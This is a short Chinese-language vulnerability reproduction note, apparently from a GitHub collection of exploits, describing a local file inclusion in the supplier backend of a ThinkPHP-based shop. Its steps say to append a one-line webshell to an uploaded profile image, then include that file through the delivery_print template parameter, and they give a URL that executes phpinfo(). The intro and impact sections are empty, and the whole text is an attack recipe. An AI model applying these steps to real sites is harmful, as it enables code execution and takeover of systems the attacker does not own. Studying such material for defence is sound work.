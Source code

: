 # Thinkphp Shop 供应商后台本地文件包含导致权限提升

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

1、用户个人资料修改处上传图片


```
http://url/Home/User/info.html
```

2、上传一张正常图片，并在图片末尾加上一句话

3、返回shell


```
http://url/supplier/order/delivery_print?template=public/upload/user/4575/head_pic/5989ee42cc5992e64a60c52b0cbb7602.png&w=phpinfo();
```